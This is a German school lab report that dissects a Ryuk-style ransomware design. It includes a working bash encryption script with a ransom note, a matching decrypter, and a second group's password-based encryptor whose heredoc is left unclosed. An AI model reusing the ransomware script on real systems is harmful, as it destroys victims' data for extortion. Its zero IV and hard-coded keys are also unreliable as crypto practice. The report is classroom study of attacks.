



# ITSE Arbeitsbericht

| | |
|---|---|
| **Klasse** | 5AHITS |
| **Name** | Florian Zöhner, Simon Klingesberger |
| **Fach** | ITSE-Labor |
| **Datum** | 28.09.2026 |

---

## Übung 1 – Logische Argumentationskette des Angreifers

### Übung 1.1 – Warum AES-256-CBC für das Verschlüsseln der einzelnen Dateien?

Symmetrische Verschlüsselung (AES) ist extrem schnell und ressourcenschonend. Asymmetrische Verfahren wie RSA wären bei großen Datei- und Datenmengen viel zu langsam. CBC (Cipher Block Chaining) sorgt zudem dafür, dass identische Klartextblöcke unterschiedliche Geheimtextblöcke erzeugen.

---

### Übung 1.2 – Warum ein eigener Key für jede Datei?

Verhindert Massenentschlüsselung. Sollte der AES-Schlüssel einer einzelnen Datei im Arbeitsspeicher ausgelesen oder bekannt werden, sind alle anderen Dateien auf dem System weiterhin geschützt.

---

### Übung 1.3 – Warum wird dieser AES-Key per RSA verschlüsselt?

Hybrid-Kryptographie. Der Angreifer muss dadurch nicht Tausende von AES-Keys verwalten oder speichern. Der AES-Key wird direkt mit dem öffentlichen RSA-Schlüssel des Opfers (`rsa_victim_key_public`) geschützt. Nur wer den privaten RSA-Schlüssel besitzt, kann den Dateischlüssel wiederherstellen.

---

### Übung 1.4 – Warum wird der verschlüsselte AES-Key an die Datei angehängt?

Einfachheit und Unabhängigkeit. Dadurch wird keine externe Datenbank oder Verzeichnisstruktur auf dem Opfersystem benötigt. Da das Ergebnis der RSA-2048-Verschlüsselung exakt **256 Bytes** lang ist, kann das Entschlüsselungstool später einfach die letzten 256 Bytes jeder Datei auslesen.

---

### Übung 1.5 – Warum wird der `victim_rsa_private_key` mit AES verschlüsselt?

Schutz vor lokaler Entschlüsselung. Der RSA-Private-Key wird für die spätere Entschlüsselung lokal benötigt. Damit das Opfer diesen nicht ohne Lösegeldzahlung nutzen kann, wird er mit einem zufälligen symmetrischen Schlüssel (`aes_victim_key`) verschlüsselt auf dem System abgelegt (`victim_private.enc`).

---

### Übung 1.6 – Warum wird ein globaler RSA-Key genutzt, um den `aes_victim_key` zu verschlüsseln?

Zentrale Kontrolle über alle Opfer. Der Angreifer muss nur einen einzigen Master Private Key (`rsa_global_key_private`) geheim halten. Nach Eingang der Zahlung entschlüsselt der Angreifer die übermittelte `victim_key.enc` und sendet nur den spezifischen `aes_victim_key` an das jeweilige Opfer zurück.

---

## Übung 2 – Red Team vs. Blue Team Implementierung

### Übung 2.1 – Red Team: Ransomware-Skript (`ryuk_encrypt.sh`)

Erzeugt die Schlüsselhierarchie, verschlüsselt angegebene Dateien mit AES-256-CBC und hängt den RSA-verschlüsselten Dateischlüssel an das Dateiende an.

```bash
#!/bin/bash
set -e

IV="00000000000000000000000000000000"

# Globales RSA-Schlüsselpaar erzeugen (einmalig)
if [ ! -f rsa_global_key_public.pem ]; then
    openssl genpkey -algorithm RSA -out rsa_global_key_private.pem -pkeyopt rsa_keygen_bits:2048 2>/dev/null
    openssl rsa -pubout -in rsa_global_key_private.pem -out rsa_global_key_public.pem 2>/dev/null
fi

# Opferspezifische Schlüsselhierarchie aufbauen (einmalig pro Opfer)
if [ ! -f victim_key.enc ]; then
    openssl genpkey -algorithm RSA -out rsa_victim_key_private.pem -pkeyopt rsa_keygen_bits:2048 2>/dev/null
    openssl rsa -pubout -in rsa_victim_key_private.pem -out rsa_victim_key_public.pem 2>/dev/null

    AES_VICTIM_KEY=$(openssl rand -hex 32)
    openssl aes-256-cbc -e -in rsa_victim_key_private.pem -out victim_private.enc -K "$AES_VICTIM_KEY" -iv "$IV"
    echo -n "$AES_VICTIM_KEY" | openssl pkeyutl -encrypt -pubin -inkey rsa_global_key_public.pem -out victim_key.enc

    rm -f rsa_victim_key_private.pem
    unset AES_VICTIM_KEY
fi

# Dateien verschlüsseln
for FILE in "$@"; do
    if [ ! -f "$FILE" ] || [[ "$FILE" == *.enc ]] || [[ "$FILE" == *.pem ]] || [[ "$FILE" == "$0" ]]; then
        continue
    fi

    AES_FILE_KEY=$(openssl rand -hex 32)
    openssl aes-256-cbc -e -in "$FILE" -out "${FILE}.body" -K "$AES_FILE_KEY" -iv "$IV" 2>/dev/null
    echo -n "$AES_FILE_KEY" | openssl pkeyutl -encrypt -pubin -inkey rsa_victim_key_public.pem -out "${FILE}.key"

    cat "${FILE}.body" "${FILE}.key" > "$FILE"
    rm -f "${FILE}.body" "${FILE}.key"
done

cat << "EOF"

===============================================================================
                        !!! YOUR NETWORK IS ENCRYPTED !!!
===============================================================================
  All your important files have been encrypted using strong AES-256 & RSA-2048
  algorithms. There is no possibility to restore your files without our key.

  To recover your files, you must pay the ransom in Bitcoin.
  Contact us at: ryuk_decrypt@protonmail.com
  Send file 'victim_key.enc' in your first message.
===============================================================================

EOF
```

---

### Übung 2.2 – Blue Team: Decrypter-Skript (`ryuk_decrypt.sh`)

```bash
#!/bin/bash
set -e

IV="00000000000000000000000000000000"

# Voraussetzungen prüfen
if [ ! -f rsa_global_key_private.pem ] || [ ! -f victim_key.enc ] || [ ! -f victim_private.enc ]; then
    echo "Fehler: rsa_global_key_private.pem, victim_key.enc oder victim_private.enc fehlt!"
    exit 1
fi

# Opfer-AES-Key entschlüsseln → Opfer-RSA-Private-Key wiederherstellen
AES_VICTIM_KEY=$(openssl pkeyutl -decrypt -inkey rsa_global_key_private.pem -in victim_key.enc)
openssl aes-256-cbc -d -in victim_private.enc -out rsa_victim_key_private.pem -K "$AES_VICTIM_KEY" -iv "$IV"

# Dateien entschlüsseln
for FILE in "$@"; do
    if [ ! -f "$FILE" ] || [[ "$FILE" == *.pem ]] || [[ "$FILE" == *.enc ]] || [[ "$FILE" == "$0" ]]; then
        continue
    fi

    FILE_SIZE=$(stat -c%s "$FILE")
    if [ "$FILE_SIZE" -le 256 ]; then
        echo "Datei $FILE ist zu klein, um verschlüsselte Keys zu enthalten."
        continue
    fi

    BODY_SIZE=$((FILE_SIZE - 256))
    head -c "$BODY_SIZE" "$FILE" > "${FILE}.body"
    tail -c 256 "$FILE" > "${FILE}.key"

    AES_FILE_KEY=$(openssl pkeyutl -decrypt -inkey rsa_victim_key_private.pem -in "${FILE}.key")
    openssl aes-256-cbc -d -in "${FILE}.body" -out "$FILE" -K "$AES_FILE_KEY" -iv "$IV" 2>/dev/null

    rm -f "${FILE}.body" "${FILE}.key"
    echo "Erfolgreich entschlüsselt: $FILE"
done

# Private Key nach Nutzung entfernen
rm -f rsa_victim_key_private.pem
```

---

### Übung 2.3 – Durchführung und Beobachtung

**Terminal-Output:**

```
┌──(kali㉿kali)-[~/Documents]
└─$ ./ryukdecrypt.sh Wichtige_Dokumente/*
Erfolgreich entschlüsselt: Wichtige_Dokumente/Dokument1.md

┌──(kali㉿kali)-[~/Documents]
└─$ cat Wichtige_Dokumente/Dokument1.md

┌──(kali㉿kali)-[~/Documents]
└─$
```

> **Beobachtung:** Nach dem Entschlüsselungsdurchlauf war die Datei `Dokument1.md` beim Aufruf mit `cat` leer.

**Ursache:**  
Das Skript trennt exakt **256 Bytes** am Dateiende als Schlüssel ab und entschlüsselt den verbleibenden Teil (`BODY_SIZE`). Wenn die Originaldatei vor dem Verschlüsseln bereits leer war (0 Bytes groß) oder beim Erstellen nicht beschrieben wurde, bleibt auch nach dem Entfernen des Schlüsselblocks ein leerer Inhalt übrig.

---

## Anhang – OpenSSL AES Befehlsübersicht

#### 1. Datei verschlüsseln (Encrypt)

```bash
openssl aes-256-cbc -e -in data.txt -out data.txt.enc \
  -K '0106eb4887051520fcf40b5e8fa5acceab272785c1055ce53e3c201b1d3441fe' \
  -iv '00000000000000000000000000000000'
```


| Flag | Bedeutung |
|------|-----------|
| `-e` | Encryption (Verschlüsselung) |
| `-in` | Quelldatei (Klartext) |
| `-out` | Zieldatei (Geheimtext) |
| `-K` | AES-256 Schlüssel im Hex-Format |
| `-iv` | Initialisierungsvektor im Hex-Format |

---

#### 2. Datei entschlüsseln (Decrypt)

```bash
openssl aes-256-cbc -d -in data.txt.enc -out data.txt \
  -K '0106eb4887051520fcf40b5e8fa5acceab272785c1055ce53e3c201b1d3441fe' \
  -iv '00000000000000000000000000000000'
```



| Flag | Bedeutung |
|------|-----------|
| `-d` | Decryption (Entschlüsselung) |
| `-in` | Quelldatei (Geheimtext) |
| `-out` | Zieldatei (Klartext) |
| `-K` | AES-256 Schlüssel im Hex-Format |
| `-iv` | Initialisierungsvektor im Hex-Format |

 

### Entschlüsselung Gruppe Lukas, David

Passwort: Schule

#### Programm:
```bash
 #!/bin/bash
 
PASSWORT="schule"


if [ "$#" -eq 0 ]; then
    echo "Verwendung: $0 DATEI1 DATEI2 ..."
    exit 1
fi

for DATEI in "$@"
do
    if [ -f "$DATEI" ]; then
        openssl enc -aes-256-cbc -salt \
            -in "$DATEI" \
            -out "$DATEI.enc" \
            -pass pass:"$PASSWORT"
 
        echo "$DATEI wurde verschlüsselt."
    else
        echo "Fehler: Datei '$DATEI' wurde nicht gefunden."
    fi
done
cat > testdaten/RANSOM_NOTE.txt << EOF
 
Die Daten wurden verschlüsselt skript von lukas und dave zum entschlüsseln masterkey ist "schule"


```

  
#### Lösung:
```bash
#!/bin/bash
 
PASSWORT="schule"
 
if [ "$#" -eq 0 ]; then
    echo "Verwendung: $0 DATEI1.enc DATEI2.enc ..."
    exit 1
fi
 
for DATEI in "$@"
do
    if [ -f "$DATEI" ]; then
        # Dateiendung .enc für den Zielnamen entfernen (falls vorhanden)
        ZIELDATEI="${DATEI%.enc}"
        # Falls der Zielname dem Quelldateinamen entspricht, Suffix anhängen
        if [ "$ZIELDATEI" == "$DATEI" ]; then
            ZIELDATEI="${DATEI}.dec"
        fi
 
        openssl enc -d -aes-256-cbc -salt \
            -in "$DATEI" \
            -out "$ZIELDATEI" \
            -pass pass:"$PASSWORT" 2>/dev/null
 
        if [ $? -eq 0 ]; then
            echo "$DATEI wurde erfolgreich nach $ZIELDATEI entschlüsselt."
        else
            echo "Fehler beim Entschlüsseln von '$DATEI' (falsches Passwort oder beschädigte Datei)."
            rm -f "$ZIELDATEI"
        fi
    else
        echo "Fehler: Datei '$DATEI' wurde nicht gefunden."
    fi
done enschlüsselungsskript
```

